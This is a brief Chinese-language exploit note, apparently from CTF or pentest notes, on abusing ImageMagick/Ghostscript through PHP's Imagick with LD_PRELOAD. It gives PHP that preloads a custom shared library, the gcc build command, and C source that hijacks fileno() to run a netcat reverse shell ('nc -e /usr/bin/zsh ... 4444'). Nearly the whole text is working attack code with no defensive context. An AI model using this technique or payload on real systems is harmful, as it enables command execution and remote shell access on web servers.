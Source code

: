 ```yaml
---
title: imagemagick+GhostScript
id: zhfly3465
---
```


## **imagemagick+GhostScript**

**exp**

```
<?php
putenv('LD_PRELOAD=/var/www/html/imag.so');
$img = new Imagick('/tmp/1.ps');
?> 
```

其中 imag.c文件需要编译，命令如下

```
gcc -shared -fPIC imag.c -o imag.so 
```

> imag.c代码

```
#include <stdlib.h>
#include <string.h>
void payload() {
  const char* cmd = "nc -e /usr/bin/zsh 127.0.0.1 4444";
  system(cmd);
}
int fileno() {
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
    payload();
} 
```